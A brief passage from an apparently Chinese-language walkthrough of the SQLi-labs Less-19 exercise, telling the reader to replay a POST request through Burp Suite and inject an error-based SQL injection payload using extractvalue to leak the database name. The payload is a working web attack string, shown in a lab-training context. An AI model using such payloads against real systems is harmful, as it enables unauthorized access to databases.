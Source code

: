 ![Less-19_3](./img/Less-19_3.PNG)



+ 启动<code>burpsuite</code>和开启监测端口，重新提交<code>post</code>参数，注入以下<code>payload</code>爆库名

~~~ shell
' and extractvalue(1,concat(0x7e,(select database()))) and '1'='1
~~~
